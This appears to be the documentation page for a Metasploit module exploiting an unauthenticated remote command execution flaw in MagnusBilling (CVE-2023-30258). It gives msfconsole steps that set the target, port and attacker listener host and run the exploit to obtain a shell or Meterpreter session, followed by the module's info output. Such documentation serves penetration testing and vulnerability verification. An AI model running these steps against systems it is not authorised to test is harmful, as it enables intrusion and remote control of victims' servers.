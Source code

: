 ## Verification Steps
- [x] Start `msfconsole`
- [x] `use exploit/linux/http/magnusbilling_unauth_rce_cve_2023_30258`
- [x] `set rhosts <ip-target>`
- [x] `set rport <port>`
- [x] `set lhost <ip-attacker>`
- [x] `set target <0=PHP, 1=Unix Command, 2=Linux Dropper>`
- [x] `exploit`

you should get a `shell` or `Meterpreter` session.
```shell
msf6 exploit(linux/http/magnusbilling_unauth_rce_cve_2023_30258) > info

       Name: MagnusBilling application unauthenticated Remote Command Execution.
     Module: exploit/linux/http/magnusbilling_unauth_rce_cve_2023_30258
   Platform: PHP, Unix, Linux
       Arch: php, cmd, x64, x86
 Privileged: Yes
    License: Metasploit Framework License (BSD)
       Rank: Excellent
  Disclosed: 2023-06-26

Provided by:
  h00die-gr3y <h00die.gr3y@gmail.com>
  Eldstal

Module side effects:
 ioc-in-logs
 artifacts-on-disk

Module stability:
 crash-safe

Module reliability:
 repeatable-session

Available targets:
      Id  Name
      --  ----
  =>  0   PHP
      1   Unix Command
      2   Linux Dropper

Check supported:
  Yes

Basic options:
  Name       Current Setting         Required  Description
  ----       ---------------         --------  -----------
  Proxies                            no        A proxy chain of format type:host:port[,type:host:port][...]
  RHOSTS     yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics
                                               /using-metasploit.html
  RPORT      80                      yes       The target port (TCP)
  SSL        false                   no        Negotiate SSL/TLS for outgoing connections
  SSLCert                            no        Path to a custom SSL certificate (default is randomly generated)
  TARGETURI  /mbilling               yes       The MagnusBilling endpoint URL
  URIPATH                            no        The URI to use for this exploit (default is random)
  VHOST                              no        HTTP server virtual host


```